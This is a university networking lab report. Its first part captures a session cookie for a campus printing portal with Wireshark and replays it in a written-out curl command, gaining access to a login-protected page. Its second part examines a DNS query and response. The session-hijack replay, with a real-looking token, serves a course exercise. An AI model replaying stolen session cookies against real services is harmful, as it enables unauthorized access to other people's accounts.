 # CS305B Lab5 Report

*11812418 樊青远 Fan Qingyuan*

## ASSIGNMENT 5.1 SESSION HIJACK

### Capture session cookie

We first use the wireshark to capture the traffic, then we apply the filter `http.request.uri contains "client/new/cprintPc/printDev.html"` to find the corresponding request contain the path of "printer device" (which is `http://pms.sustech.edu.cn/client/new/cprintPc/printDev.html`).

![image-20210317210601443](image-20210317210601443.png)

We can view the cookie of the reques in the wireshark panel.

### Replay HTTP request

We replay the request with the following `curl` command:

```shell
curl 'http://pms.sustech.edu.cn/client/new/cprintPc/printDev.html' \
  -H 'Connection: keep-alive' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'DNT: 1' \
  -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 11_2_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82 Safari/537.36' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' \
  -H 'Referer: http://pms.sustech.edu.cn/client/new/cprintPc/help.html' \
  -H 'Accept-Language: zh-CN,zh-HK;q=0.9,zh-TW;q=0.8,zh;q=0.7,en-US;q=0.6,en;q=0.5' \
  -H 'Cookie: setlogin=password; set_change_password=1; set_show_langbtn=1; set_print_color=black%2Ccolorful; set_uniprint_changpassword_api=1; set_mobile_index_school_link=http%3A//zjut.cprint.unifound.net; OSESSIONID=b50ee7f1570749bab2047e785a55554d' \
  --compressed \
  --insecure
```

the result was:

```html
*   Trying 172.18.1.141:80...
* Connected to pms.sustech.edu.cn (172.18.1.141) port 80 (#0)
> GET /client/new/cprintPc/printDev.html HTTP/1.1
> Host: pms.sustech.edu.cn
> Accept-Encoding: deflate, gzip
> Connection: keep-alive
> Upgrade-Insecure-Requests: 1
> DNT: 1
> User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 11_2_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82 Safari/537.36
> Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
> Referer: http://pms.sustech.edu.cn/client/new/cprintPc/help.html
> Accept-Language: zh-CN,zh-HK;q=0.9,zh-TW;q=0.8,zh;q=0.7,en-US;q=0.6,en;q=0.5
> Cookie: setlogin=password; set_change_password=1; set_show_langbtn=1; set_print_color=black%2Ccolorful; set_uniprint_changpassword_api=1; set_mobile_index_school_link=http%3A//zjut.cprint.unifound.net; OSESSIONID=b50ee7f1570749bab2047e785a55554d
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Server: nginx/1.15.6
< Date: Wed, 17 Mar 2021 13:08:45 GMT
< Content-Type: text/html
< Content-Length: 4937
< Connection: keep-alive
< Last-Modified: Thu, 29 Aug 2019 13:26:10 GMT
< ETag: "1d55e2a44035649"
< 
<!DOCTYPE html>
<html lang="en">
<head>
    <meta http-equiv="X-UA-Compatible" content="IE=Edge"/>
    <meta charset="UTF-8"/>
    <meta name="description" content=""/>
    <meta name="keywords" content="云打印,打印,自助打印,联创自助打印,打印驱动"/>
    <meta name="viewport" content="width=1226"/>
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <link rel="shortcut icon" href="./favicon.ico" type="image/x-icon"/>
    <meta http-equiv="Cache-Control" content="no-transform "/>
    <meta http-equiv="Cache-Control" content="no-siteapp"/>
    <script type="text/javascript">
        document.write("<link rel='stylesheet' type='text/css' href='./css/base.css?_v=" + Math.random() + "' />");
        document.write("<link rel='stylesheet' type='text/css' href='./css/public.css?_v=" + Math.random() + "' />");
        document.write("<link rel='stylesheet' type='text/css' href='./css/printDev.css?_v=" + Math.random() + "' />");
    </script>
    <title>联创云打印</title>
    <!--[if lt IE 10]>
    <script src="./lib/css3-mediaqueries.js"></script>
    <script src="./lib/html5.js"></script>
    <![endif]-->
</head>
<body>
<div id="printDev" class="wrap">
    <div class="main relative">
        <div class="container">
            <ul id="devul" class="devlist fs18">
                <li class="clearfix relative">
                    <h4 class="fl break1">名称</h4>
                    <div class="fl paperwrap">
                        <!--<span class="" data-id="640016">纸张</span>-->
                        <span class="" data-id="">纸张</span>
                    </div>
                    <div class="fl gongwrap">
                        <span class="" data-id="640066">功能</span>:
                    </div>
                    <div class="fr statewrap state2 idQuery">状态</div>
                </li>
                <script type="text/html" id="devlist-template">
                    {{each result}}
                    <li class="clearfix relative">
                        <!--<i class="icon_address"></i>-->
                        <h4 class="fl break1" title="{{$value.szName}}">{{$value.szName}}</h4>
                        <div class="fl paperwrap">
                            {{$value.x_papers}}
                        </div>
                        <div class="fl gongwrap">
                            {{if $value.x_gong.indexOf("1")!=-1}}
                            <span class="idQuery" data-id="640009">打印</span>,
                            {{/if}}
                            {{if $value.x_gong.indexOf("2")!=-1}}
                            <span class="idQuery" data-id="640011">复印</span>,
                            {{/if}}
                            {{if $value.x_gong.indexOf("4")!=-1}}
                            <span class="idQuery" data-id="640010">扫描</span>,
                            {{/if}}
                            {{if $value.x_gong.indexOf("8")!=-1}}
                            <span class="idQuery" data-id="640067">支持彩色</span>
                            {{/if}}
                            <!--功能: 扫描、打印、复印、支持彩色-->
                        </div>

                        {{if $value.x_state_flag==1}}
                        <div class="fr statewrap state3 idQuery" data-id="640070">忙碌</div>
                        {{else if $value.x_state_flag==2}}
                        <div class="fr statewrap state1 idQuery" data-id="640068">空闲</div>
                        {{else if $value.x_state_flag==3}}
                        <div class="fr statewrap state2 idQuery" data-id="640069">不可用</div>
                        {{/if}}
                    </li>
                    {{/each}}
                </script>
            </ul>
            <div id="nolist_js" class="nolistwrap hide">
                <div class="nolist">
                    <i class="icon_nodev"></i>
                    <span class="idQuery" data-id="640090">没有可打印点</span>
                </div>
            </div>
            <div class="loading"></div>
        </div>
    </div>
</div>
<div class="footer"></div>
<div class="all-loading1"></div>
</body>
<script src="./lib/jquery.min.js"></script>
<script src="./lib/template.js"></script>
<script src="./lib/json2.js"></script>
<script type="text/javascript">
    document.write("<script type='text/javascript' src='../setconfig.js?v=" + Math.random() + "'><\/script>");
    document.write("<script type='text/javascript' src='./js/host.js?v=" + Math.random() + "'><\/script>");
    document.write("<script type='text/javascript' src='./js/common.js?v=" + Math.random() + "'><\/script>");
    document.write("<script type='text/javascript' src='./js/printDev.js?v=" + Math.random() + "'><\/script>");
</script>
* Connection #0 to host pms.sustech.edu.cn left intact
</html>%                                                    
```

We could found that the using the cookie we obtained from Wireshark, we could replay the http request and get the printer of campus which needs login.

## ASSIGNMENT 5.2 DNS INSPECTION

### Capture DNS

We use the capture filter `udp port 53`  and display flag `dns.qry.name == "mirrors.sustech.edu.cn"`  to filter the DNS query result withe the domain `mirrors.sustech.edu.cn`:

![image-20210317211455509](image-20210317211455509.png)

#### Where did the query send?

`192.168.31.1`

#### What did the query said?

Query `A` record for `mirrors.sustech.edu.cn`

![image-20210317211707281](image-20210317211707281.png)

#### Does the server support recursive query?

Yes, the server `1.2.4.8` could do the recursive query.

![image-20210317211857801](image-20210317211857801.png)

#### What did the respond said?

```
Frame 140: 222 bytes on wire (1776 bits), 222 bytes captured (1776 bits) on interface en0, id 0
Ethernet II, Src: BeijingX_e7:cd:84 (88:c3:97:e7:cd:84), Dst: Apple_75:70:88 (38:f9:d3:75:70:88)
Internet Protocol Version 4, Src: 1.2.4.8, Dst: 192.168.31.185
User Datagram Protocol, Src Port: 53, Dst Port: 60732
Domain Name System (response)
    Transaction ID: 0x8c55
    Flags: 0x8180 Standard query response, No error
    Questions: 1
    Answer RRs: 1
    Authority RRs: 2
    Additional RRs: 4
    Queries
        mirrors.sustech.edu.cn: type A, class IN
            Name: mirrors.sustech.edu.cn
            [Name Length: 22]
            [Label Count: 4]
            Type: A (Host Address) (1)
            Class: IN (0x0001)
    Answers
        mirrors.sustech.edu.cn: type A, class IN, addr 116.7.234.220
    Authoritative nameservers
        sustech.edu.cn: type NS, class IN, ns ns2.sustech.edu.cn
        sustech.edu.cn: type NS, class IN, ns ns1.sustech.edu.cn
    Additional records
        ns1.sustech.edu.cn: type A, class IN, addr 110.65.147.31
        ns2.sustech.edu.cn: type A, class IN, addr 116.7.234.32
        ns1.sustech.edu.cn: type AAAA, class IN, addr 2001:da8:201d::42:92
        ns2.sustech.edu.cn: type AAAA, class IN, addr 2001:da8:201d::42:93
    [Request In: 139]
    [Time: 0.054213000 seconds]

```



